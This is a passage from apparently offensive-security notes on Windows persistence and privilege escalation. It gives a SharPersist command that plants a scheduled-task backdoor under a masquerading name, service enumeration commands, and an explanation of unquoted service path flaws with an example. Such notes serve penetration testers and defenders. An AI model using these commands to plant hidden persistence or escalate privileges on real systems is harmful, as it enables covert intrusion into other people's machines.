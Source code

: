```bash
# Scheduled Task Backdoor
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "WMIPerformanceAdapterExtension" -m add
```

For more information about those techniques refer to:

- [T1036.004 - Masquerading: Masquerade Task or Service](https://attack.mitre.org/techniques/T1036/004/)
- [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)

### Service Enumeration

Services can be interesting for two reasons:

- Establish perstistence
- Perform a privilege escalation towards SYSTEM or adminitrator through a misconfugred service

```bash
# Displays all service and their name
wmic service get pathname,startname
# Displays all service that are running
Get-Service | where object {$ .status -eq ''Running''}
# Search for "Unquoted Service Path" vulnerable services
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v 

# Automated script to list all services path
sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

There is the following Metasploit Module available to enumerate weak permissions on services *post/windows/local/service_enumeration*

If there is are path that contains whitespace and run as *LocalSystem*, Unquoted Service Path vulnerability.
When Windows starts a service, it looks for the PATH where that services is locating. If any unquoted (has space) in the PATH the service can be manipulating.
Here below is an example of a Windows Service that is vulnerable:

![Unquoted Path example](Unquoted_Example.PNG)
NIHardwareService is vulnerable as:

- *C:\Program Files\Common Files\Native Instruments\Hardware\NIHardwareService.exe* contain a whitespace and is not quoted
- The service has an *AUTO_START* start type
- The service is runnig whith high privilege, *LocalSystem*

If there are services that haves the **RP** permission for Authenticated Users **AU** ....

We can also use the Sysinternals tool [accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) in order to check which service(s) may be vulnerable.
